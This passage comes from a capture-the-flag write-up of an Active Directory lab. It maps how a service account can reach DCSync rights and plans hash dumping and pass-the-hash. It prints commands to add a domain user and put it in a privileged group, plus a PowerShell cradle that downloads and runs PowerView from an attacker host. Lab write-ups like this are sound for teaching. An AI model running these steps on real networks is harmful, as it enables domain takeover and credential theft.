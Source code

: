 ```

We can see that `svc-alfresco` is a member of the group `Service Accounts` which is a member of the group `Privileged IT Accounts,` which is a member of `Account Operators.` Moreover, the `Account Operators` group has Generic All permissions on the `Exchange Windows Permissions` group, which has WriteDacl permissions on the domain.

Now let me try and break it down;

1. svc-alfresco is not just a member of Service Accounts, but is also a member of the groups Privileged IT Accounts and Account Operators.
2. The Account Operators group grants limited account creation privileges to a user. Therefore, the user svc-alfresco can create other users on the domain.
3. The Account Operators group has GenericAll permission on the Exchange Windows Permissions group. This permission essentially gives members full control of the group and therefore allows members to directly modify group membership. Since svc-alfresco is a member of Account Operators, he is able to modify the permissions of the Exchange Windows Permissions group.
4. The Exchange Windows Permission group has WriteDacl permission on the domain HTB.LOCAL. This permission allows members to modify the DACL (Discretionary Access Control List) on the domain. We’ll abuse this to grant ourselves DcSync privileges, which will give us the right to perform domain replication and dump all the password hashes from the domain.

Now let list our attack path.

1. Create a user on the domain. This is possible because svc-alfresco is a member of the group Account Operators.
2. Add the user to the Exchange Windows Permission group. This is possible because svc-alfresco has GenericAll permissions on the Exchange Windows Permissions group.
3. Give the user DcSync privileges. This is possible because the user is a part of the Exchange Windows Permissions group which has WriteDacl permission on the htb.local domain.
4. Perform a DcSync attack and dump the password hashes of all the users on the domain.
5. Perform a Pass the Hash attack to get access to the administrator’s account.

All thanks to Rana Khalil for breaking it down because am also new to Active Directory and using BloodHound.

Now let hit it.

```
net user itmuzec muzec123 /add /domain
```
![image](https://user-images.githubusercontent.com/69868171/125168555-0468ee00-e19e-11eb-9c0e-5792ad3f8f7c.png)

Now let Add the user to to the Exchange Windows Permission group.

```
net group "Exchange Windows Permissions" /add itmuzec
```
![image](https://user-images.githubusercontent.com/69868171/125168611-43973f00-e19e-11eb-87f7-e4187cf10fdf.png)

We need to give the user DCSync privileges we can use PowerView for this. First let download Powerview and setup a python server in the directory it resides in to transfer it.

![image](https://user-images.githubusercontent.com/69868171/125168701-b1436b00-e19e-11eb-8415-22167642c458.png)

```
python -m SimpleHTTPServer
```
Now let download the script on the target.

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.72:8000/PowerView.ps1')